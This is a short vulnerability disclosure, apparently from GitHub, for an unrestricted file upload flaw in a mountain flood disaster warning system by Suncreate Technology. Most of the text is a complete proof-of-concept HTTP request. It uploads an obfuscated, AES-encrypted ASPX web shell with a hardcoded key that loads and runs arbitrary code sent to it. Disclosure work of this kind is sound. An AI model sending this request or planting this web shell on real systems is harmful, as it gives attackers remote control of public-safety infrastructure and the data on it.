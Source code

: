 File upload vulnerability exists in the Duty UpLoadFloodPlanFile module of mountain flood disaster prevention monitoring and warning system of Suncreate Technology Co., LTD

official website:https://www.istrong.cn/

Vulnerability location:/Duty/AjaxHandle/UpLoadFloodPlanFile.ashx

![WPS图片(1)](https://github.com/MoeMion233/cve/assets/138176273/911b858f-8b97-4194-8a2c-07554896eea9)

Trace class
/bin/Strongsoft.Web.dll
// Strongsoft.Web.Duty.AjaxHandle.UpLoadFloodPlanFile
Entry function

![WPS图片(2)](https://github.com/MoeMion233/cve/assets/138176273/3981b10c-ecbe-42be-9caa-2fc01758c7cc)


Enter the ArticleFileIpLoad function

![WPS图片(3)](https://github.com/MoeMion233/cve/assets/138176273/eaf2ed0a-5e99-483e-8dd3-bc5f9a40984a)


If the file type is not filtered, you can save it and obtain webshell. When the incoming doc = / location/UploadFile/yyyyMMddHHmmssfff after upload. Aspx.

POC

```
POC
POST /Duty/AjaxHandle/UpLoadFloodPlanFile.ashx HTTP/1.1
Host: xx.xx.xx.xx
Content-Length: 1218
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryB4tZ2o9YRDmhPXe7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="doc"

/
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7
Content-Disposition: form-data; name="Filedata"; filename="api.aspx"
Content-Type: application/xml

<%@ Page Language="C#" %>
<%@Import Namespace="System.Reflection"%>
<%@Import Namespace="System.IO"%>
<%@Import Namespace="System.Security.Cryptography"%>
<%
    try {
        string key = "900bc885d7553375";
        byte[] k = Encoding.Default.GetBytes(key);
        Session.Add("sky", key);
        StreamReader sr = new StreamReader(Request.InputStream);
        string line = sr.ReadLine();
        if (!string.IsNullOrEmpty(line))
        {

            byte[] c = Convert.FromBase64String(line);
            Assembly assembly = typeof(Environment).Assembly;
            RijndaelManaged rm =(RijndaelManaged) assembly.CreateInstance("System.Secur"+"ity.Crypto"+"graphy.Rijnda"+"elManaged");
            byte[] data=rm.CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length);
            Assembly.Load(data).CreateInstance("U").Equals(this.Context);
            sr.Close();
        }
    }
    catch{ }

%>
------WebKitFormBoundaryB4tZ2o9YRDmhPXe7--
```

![WPS图片(4)](https://github.com/MoeMion233/cve/assets/138176273/5ec21041-8ab2-476e-b9f2-a631aeab2cf6)

![WPS图片(5)](https://github.com/MoeMion233/cve/assets/138176273/9dcbdce8-7b1f-439f-8ea8-3944eb59fd19)

